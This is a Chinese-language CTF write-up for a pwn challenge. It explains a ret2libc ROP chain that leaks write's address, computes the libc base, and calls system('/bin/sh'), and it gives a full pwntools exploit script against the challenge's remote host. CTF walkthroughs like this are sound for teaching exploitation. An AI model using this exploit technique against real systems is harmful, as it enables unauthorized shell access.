 ==可以找到pop rsi的指令，但由于他附带了一个pop r15，这是我们不需要的，所以要将他跳过（把0填入r15进行占位）如下：==

可以构造第一段payload：

```python
payload = b'1\0' + b'a'*22 + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(0x401288)
```

解释一下这段payload，由于strlen会检测s的长度，所以要先进行绕过，\0可以让strlen函数停止检测（1\0占两个字节）。依次把write_got弹出到rsi，把0弹出到r15中占位，将返回地址覆盖为write函数进行输出。至于这里为什么不用lea的0x401281作为返回地址，因为我们在payload中已经将rsi寄存器的值布置好了，==如果跳转到lea，那么刚布置好的数值就会被右边的“try this\n”给覆盖，所以要跳过它，返回到0x401288==

成功输出了write的真实地址后进行接收：

```python
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
```

然后算出system和binsh的偏移即可

进行第二次溢出：

```python
payload = b'1\0' + b'a'*22 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system)
```

成功获取flag

完整exp：

```python
from pwn import *
#p = process('./chal')
p= remote('pwn.node.game.sycsec.com',30345)
#gdb.attach(p)
elf = ELF('./chal')
context(os="linux",arch="amd64",log_level='debug')

pop_rdi_ret = 0x401333
pop_rsi_r15_ret = 0x401331
write_got = elf.got['write']

payload = b'1\0' + b'a'*22 + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(0x401288)
p.sendline(payload)
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print("write_addr = "+hex(write_addr))

libc = ELF('libc.so.6')#这里是打远程使用服务器的libc版本，如果是本地打还需要patch，非常麻烦。所以直接打远程就可以
write_of = libc.symbols['write']
binsh = next(libc.search(b'/bin/sh'))
system_of = libc.symbols['system']
libc_base = write_addr - write_of
system = libc_base + system_of
binsh_addr = binsh + libc_base
print("system"+hex(system))



payload = b'1\0' + b'a'*22 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system)
p.recv()
p.sendline(payload)
p.interactive()

```

